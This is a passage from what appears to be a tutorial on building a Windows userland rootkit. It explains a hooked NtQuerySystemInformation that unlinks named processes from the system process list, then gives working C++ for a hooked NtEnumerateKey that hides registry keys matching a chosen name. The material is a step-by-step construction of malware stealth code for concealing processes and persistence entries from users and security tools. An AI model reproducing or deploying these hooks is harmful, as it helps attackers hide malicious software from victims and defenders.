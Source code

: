 first, it calls the original `NtQuerySystemInformation` to get actual system information.

if the `SystemInformationClass` is `SystemProcessInformation`, it proceeds to manipulate the process list:

- it iterates through the linked list of `SYSTEM_PROCESS_INFORMATION` structures.

- each structure represents a process.

- the `NextEntryOffset` field links to the next process in the list.

- for each process, it checks if the process name `ImageName.Buffer` contains `HIDE_PROCNAME` using `StrStrIW`.

- if a process matching `HIDE_PROCNAME` is found, it's removed from the list.

- if it's the first entry, the `SystemInformation` pointer is adjusted.

- it handles special cases (first, middle, last entries) by using byte-level pointer arithmetic to navigate.

- for other entries, the `NextEntryOffset` of the previous entry is modified to skip the current entry.

this continues until all entries are checked, effectively hiding specified processes from the returned information, before finally returning the status from the original function call.

#### hiding the registry

to intercept calls to `NtEnumerateKey` and `NtEnumerateValueKey`, we'll write `HookedNtEnumerateKey` and `HookedNtEnumerateValueKey`.

```cpp
NTSTATUS NTAPI HookedNtEnumerateKey(HANDLE KeyHandle, ULONG Index, KEY_INFORMATION_CLASS KeyInformationClass, PVOID KeyInformation, ULONG Length, PULONG ResultLength) {

	NTSTATUS status = origNtEnumerateKey(KeyHandle, Index, KeyInformationClass, KeyInformation, Length, ResultLength);
	WCHAR * keyName = NULL;
	
	if (KeyInformationClass == KeyBasicInformation) keyName = ((KEY_BASIC_INFORMATION *) KeyInformation)->Name;
	if (KeyInformationClass == KeyNameInformation) keyName = ((KEY_NAME_INFORMATION *) KeyInformation)->Name;

	if (StrStrIW(keyName, HIDE_REG)) {
		ZeroMemory(KeyInformation, Length);
		status = STATUS_NO_MORE_ENTRIES;
	}
	
	return status;
};
```

`HookedNtEnumerateKey` calls the original `NtEnumerateKey` function. it extracts the key name based on the `KeyInformationClass` (supports `KeyBasicInformation` and `KeyNameInformation`).

if the key name contains `HIDE_REG`, it 0's out the `KeyInformation` buffer and sets the status to `STATUS_NO_MORE_ENTRIES`.
